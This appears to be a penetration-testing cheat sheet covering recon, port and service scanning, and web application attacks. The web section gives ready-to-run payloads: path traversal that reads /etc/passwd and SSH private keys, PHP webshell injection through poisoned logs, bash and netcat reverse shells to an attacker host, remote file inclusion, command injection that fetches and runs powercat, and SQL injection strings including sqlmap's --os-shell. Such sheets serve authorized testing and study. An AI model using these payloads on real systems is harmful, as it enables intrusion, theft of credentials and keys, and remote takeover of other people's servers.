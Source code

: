 # PenTest Cheat Sheet [last update 09/2024]

Table of contents
- [Recon](#Recon)
- [Vulnerability Scan](#Vulnerability-Scan)
- [Web Application Security](#Web-Application-Security)
- [Client Side Attack](#client-side-attack)

## Recon

Information Gathering, search engine:
 - https://google.com: Info about company, people, contacts, other domain, media info, external services, projects.
 - https://yandex.com: Search by images.
 - https://stract.com: Community, forums, blogs.
 - https://github.com
 - https://gist.github.com
 - https://about.gitlab.com
 - https://sourceforge.net

DNS Enumeration web-tools:
 - https://searchdns.netcraft.com
 - https://dnsdumpster.com
 - https://shodan.io: Info about technologies, subnet, service, vuls, service provider, technical informations.
 - https://search.censys.io
 - https://securityheaders.com

Domain Information:
``` bash
# DNS query
host $TARGET_DOMAIN
host -C $TARGET_DOMAIN
host -t MX $TARGET_DOMAIN   ## MX record details
host -t TXT $TARGET_DOMAIN  ## TXT record details
dig MX $TARGET_DOMAIN
dig TXT $TARGET_DOMAIN

# whois query
whois $TARGET_DOMAIN
whois $TARGET_DOMAIN -h $WHOIS_SERVER_IP
```

Subdomain Discovery:
``` bash
fierce --domain $TARGET_DOMAIN --dns-server $DNS_SERVER_IP
dnsenum $TARGET_DOMAIN
dnsrecon $TARGET_DOMAIN
gobuster vhost -u $TARGET_DOMAIN -w $WORDLIST
gobuster   dns -d $TARGET_DOMAIN -w $WORDLIST
```

HOST Discovery and PORT Scan:
``` bash
# host discovery script via ICMP request
NET="192.168.0";    ## change me
for (( i=1; i<=254; i+=1 )); IP=$(ping -c1 -W1 $NET.$i | grep -B1 " 0%" | grep ping | awk '{print $2}') && HOSTNAME=$(nslookup $NET.$i | grep net | awk '{print $4}') && echo "| $IP\t| $HOSTNAME\t|" | grep ".$i" | grep $NET
```

``` powershell
# host discovery (via powershell)
Test-NetConnection -ComputerName $TARGET_IP -Port $PORT
Test-Connection -ComputerName $TARGET_IP -TcpPort $PORT -Count 1
```

``` bash
# post scan
nc -nvv -w 1 -z $TARGET_HOST $START_PORT-$END_PORT      ## NETCAT tcp scan
nc -nvv -u -w 1 -z $TARGET_HOST $START_PORT-$END_PORT   ## NETCAT udp scan
nmap -sT -p- $TARGET_IP                 ## tcp scan, all port
nmap -sS -p- $TARGET_IP                 ## syn scan, all port
nmap -sC -p- $TARGET_IP                 ## script default, all port
nmap -sT -p- --script vuln $TARGET_IP   ## vuln script, all port
nmap -sT -p- --script all $TARGET_IP    ## all script, all port
```

Services Discovery:
``` bash
nmap -v -p 139,445 --script smb-os-discovery $TARGET_NET    ## 192.168.1.0-254
sudo nbtscan -r $TARGET_NET                                 ## 192.168.1.0/24
sudo smbmap -H $TARGET_IP                                   ## smb scan
net view \\$HOSTNAME /all                                   ## smb host in a microsoft domain
smbclient -L //$TARGET_IP                                   ## share list
smbclient //$TARGET_IP/$SHARE -U "$USER" --password="$PASS" ## access to a share

sudo nmap -sU --open -p 161 $TARGET_NET                     ## SNMP host via NMAP
onesixtyone -c 192.168.0.0/24 public                        ## find SNMP hosts
onesixtyone -c $COMMUNITY_LIST -i $IP_LIST                  ## list of community and target
snmpwalk -c $COMMUNITY -v1 -t 10 $TARGET_IP
```

## Vulnerability Scan

Base scan tools:
``` bash
sudp nmap -sT -p- $TARGET_IP                                ## check open port
sudo nmap -sT --script all $TARGET_IP -p $PORT,$PORT,...    ## all script
sudo nmap -sT --script vuln $TARGET_IP -p $PORT,$PORT,...   ## vuln script
nikto -h http://$TARGET_IP                                  ## webapp vuln scan
```

Metaspoit scan module:
``` bash
search type:auxiliary scanner                               ## list of scanner modules
use auxiliary/scanner/smb/smb_version                       ## example: user smb scan module
set RHOST $TARGET_IP                                        ## configure target host for scan module
run                                                         ## start the scan task
vulns                                                       ## vulns list (if available)
```

## Web Application Security

Get information and scan:
``` bash
sudo nmap -p80,443 --script=http-enum $TARGET_IP            ## http enum for HTTP port only
sudo nmap -p80,443 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET_IP
```

Directory brute forcing:
``` bash
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/common.txt        ## directory brute forcing
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt           ## directory brute forcing
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt -b 302    ## exclude status code 302
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt -x $EXT   ## search for extension (.php, .txt)
feroxbuster --url http://$TARGET_IP --depth 2 --wordlist /usr/share/wordlist/dirb/big.txt --rate-time 10    ## sub-directory
```

Useful filies:
``` bash
curl http://$TARGET_IP/robots.txt
curl http://$TARGET_IP/security.txt
curl http://$TARGET_IP/.well-know/security.txt
```

API enumeration with pattern file:
``` bash
# setup a patter file "pattern.txt" for the API name
{GOBUSTER}/v1
{GOBUSTER}/v2

# use gobuster with pattern
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlist/dirb/big.txt -p pattern.txt

# inspect the content
curl -i http://$TARGET_IP/users/v1                      ## return a JSON
curl -i http://$TARGET_IP/users/v1/admin -w $WORDLIST   ## investigare API methods
curl -i http://$TARGET_IP/users/v1/login -w $WORDLIST   ## investigare API methods
```

Directory Traversal:
``` bash
curl http://$TARGET/index.php?page=../../../../../../../../../etc/passwd            ## file system access
curl http://$TARGET/index.php?page=%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd          ## URL encoding
curl http://$TARGET/index.php?page=../../../../../../../../../home/user/.ssh/id_rsa ## user information, obtain SSH access: "ssh -i stolen_key user@$target"
```

Local File Inclusion:
``` bash
curl http://$TARGET/index.php -A "<?php echo system($_GET['cmd']); ?>"              ## change User-agent, add webshell in apache logs
curl http://$TARGET/index.php?cmd=$PAYLOAD                                          ## index.php include apache logs, the webshell is included

# reverse shell example (listener "nc -nvpl 4444")
curl http://$TARGET/index.php?cmd=bash -c "bash -i >& /dev/tcp/$KALI/4444 0>&1"
curl http://$TARGET/index.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$KALI%2F4444%200%3E%261%22
```

Remote File Inclusion:
``` bash
# prepare a webshell in http://$KALI:8000
curl http://$TARGET/index.php?page=http://$KALI:8000/webshell.php?cmd=pwd

# use a reverse shell with and NC: "nc -vnlp 4444"
curl http://$TARGET/index.php?page=http://$KALI:8000/php-reverse-shell.php      ## reverse shell from https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```

PHP wrapper:
``` bash
##########
##########
########## TODO
##########
##########
```

File Upload:
- change the extension of the exec file: .pHP, .php7, .php00, ...
- upload the webshell or reverse-shell
- Resource:
 - https://www.revshells.com/: generate a shell script
 - /usr/share/webshells

Command Injection:
``` bash
# multiple command inline
git version; pwd
# concatenate
"&&id"
"&&id;ls;pwd"
"&&touch test.txt;ls"
"&&sudo -l"
"&&sudo cat /root/flag.txt"

# in a ping webpage with $ip as a variable
ip=8.8.8.8&&pwd
ip=8.8.8.8%0Apwd

# download content (for Windows Target)
# git version, Invoke-WebRequest http://$ATTACKER/powercat.ps1 -OutFile powercat.ps1")
curl -X POST --data 'Archive=git+version%3b+Invoke-WebRequest+http://$ATTACKER/powercat.ps1+-OutFile+powercat.ps1' http://$TARGET/page-with-post-action
# download and execure powercat for reverse shell
curl -X POST --data 'Archive=git version%3b IEX (New-Object System.Net.Webclient).DownloadString("http://$ATTACKER/powercat.ps1")%3b powercat -c $ATTACKER -p 1337 -e powershell' http://$TARGET/page-with-post-action
# download and execure powercat for reverse shell - encoded
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F$ATTACKER%2Fpowercat.ps1%22)%3Bpowercat%20-c%20$ATTACKER%20-p%201337%20-e%20powershell' http://$TARGET/page-with-post-action
# reverse shell (for Linux with netcat)
curl -X POST --data 'ARCHIVE=git version%3b nc -c sh $ATTACKER_IP $PORT' http://$TARGET/page-with-post-action

# upload content
ip=8.8.8.8%0Acurl $TARGET -X POST "@index.php"
```

SQL Injection:
```
# access to SQL via impacket
impacket-mssqlclient '$USER':'$PASSWORD'@$IP -windows-auth

# indentify sql inj
user' OR 1=1--//
' OR 1=1 IN (SELECT @@version) -- //
' OR 1=1 IN (SELECT * FROM users) -- //
' ORDER BY 1-- //

# dump
sqlmap -u http://$URL/?s=1 -p s --dump

# user POST request from BurpSuite
sqlmap -r post-sqlmap.txt -p $VULNERABLE_ITEM --os-shell --web-root "/var/www/html"

# find number of columns
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+

# UNION SELECT
%' UNION SELECT database(), user(), @@version, null, null -- //
%' UNION SELECT null, null, database(), user(), @@version -- //
```

## Client Side Attack
ToDo

